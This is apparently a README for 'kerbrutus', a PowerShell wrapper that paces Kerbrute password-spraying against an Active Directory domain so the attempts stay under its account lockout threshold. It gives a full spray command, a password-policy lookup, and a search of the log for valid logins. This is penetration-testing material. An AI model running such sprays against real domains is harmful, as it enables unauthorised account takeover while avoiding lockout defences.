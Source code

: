 # Usage

```PowerShell
.\kerbrutus.ps1 -ExecutionCount 3 -TimeWindowMinutes 30 -CommandTemplate '..\kerbrute.exe passwordspray -d domain.local .\users.txt -v "<pass>"' -PasswordsFile .\passwords.txt -OutputFile results.log
```

In `-CommandTemplate` the `<pass>` is placeholder value that will be populated in the command from the specified file in `-PasswordsFile`.

The value specified in `-OutputFile` will have all results appended to it.

## Why?

So you can continuously and safely run Kerbrute (namely the `passwordspray` function) in alignment with the password policy of the AD environment you are using.

E.g.
```PowerShell
Get-ADDefaultDomainPasswordPolicy
```
```
<SNIP>
LockoutDuration             : 00:30:00
LockoutObservationWindow    : 00:30:00
LockoutThreshold            : 5
<SNIP>
```

So, as the `LockoutDuration` is `30` and the `LockoutThreshold` is `5`, you might choose to safely spray `3` passwords (for ever domain user) within a `30` minute window.
So you'd set the follow as such:
```PowerShell
-ExecutionCount 3 -TimeWindowMinutes 30
```

*NB*: Kerbrutus counts `30` minutes from when the last command finishes executing and adds 1 minute to create a buffer.

Then you can just `grep` all `VALID LOGIN`s from the log file:
```PowerShell
Select-String -Path "results.log" -Pattern "VALID LOGIN"
```

